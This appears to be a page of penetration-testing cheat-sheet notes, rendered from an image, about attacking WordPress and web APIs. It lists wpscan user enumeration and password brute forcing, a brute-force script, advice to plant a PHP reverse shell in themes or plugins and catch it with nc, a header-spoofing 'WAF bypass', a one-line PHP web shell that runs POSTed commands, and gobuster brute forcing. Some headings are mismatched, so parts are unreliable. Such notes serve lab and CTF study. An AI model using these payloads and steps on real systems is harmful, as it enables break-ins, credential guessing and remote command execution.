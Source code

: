 ## **wpscan**

```bash
wpscan --url http://10.10.10.10 -e u,vp # enumerate users & vulnerable plugins
wpscan --url 10.10.10 --passwords rockyou.txt --usernames elliot
```

# **Username Enumeration via BruteForce**

- [WordPress Brute Force Script](https://github.com/SecurityCompass/wordpress-scripts/blob/master/wp_login_user_enumeration.py)

```bash
python wp_brute.py url -t
```

**Note:** Try to create **`shell.php`** with PHP reverse shell payload in themes or plugins and try to open it with listening **`nc`** in Kali (Need write permission). Use **`php-reverse-shell.php`** or generate it with **`msfvenom`**.

# **To Analyze the Response of Request**

```bash
curl http://ip
```

# **WAF Bypass**

```bash
curl http://192.168.120.149:13337/logs -H "X-Forwarded-For: localhost"
```

# **Username Registration**

```php
<?php system($_POST["cmd"]);?>
```

This script allows running arbitrary commands via a POST request.

# API: **Creating a Pattern for GoBuster Bruteforce**

To create a pattern for bruteforcing using GoBuster on an API, follow these steps:

1. Specify the API endpoints with placeholders:
    - **`{GOBUSTER}/v1`**
    - **`{GOBUSTER}/v2`**
2. Use the **`gobuster`** command with the following parameters:
    - **`u http://192.168.229.143`**: Target URL
    - **`w /usr/share/wordlists/dirb/big.txt`**: Wordlist for bruteforce
    - **`p pattern`**: Specify the pattern for endpoints
